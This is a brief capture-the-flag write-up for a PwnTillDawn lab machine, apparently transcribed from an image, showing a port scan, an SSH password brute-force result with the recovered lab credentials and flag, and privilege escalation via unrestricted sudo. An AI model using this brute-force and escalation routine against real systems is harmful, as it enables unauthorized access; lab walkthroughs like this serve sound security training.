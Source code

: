 PwntillDawn
target :  10.150.150.166 
└─# nmap -sV -p- --open --min-rate 4000  10.150.150.166 
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 7.6p1 (protocol 2.0)
8089/tcp open  ssl/http Splunkd httpd

always if you want to connect to an ssh that you don't know use -v  or just if you see an ssh open port try first to connect using root and unknown pass:
You are attempting to login to stuntman mike's server - FLAG35=724a2734e80ddbd78b2694dc5eb74db395403360
root@10.150.150.166's password:

[22][ssh] host: 10.150.150.166   login: mike   password: babygirl

sudo -l
mike@stuntmanmike:~$ sudo -l
[sudo] password for mike: 
Matching Defaults entries for mike on stuntmanmike:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mike may run the following commands on stuntmanmike:
    (ALL : ALL) ALL

    Now just sudo su
    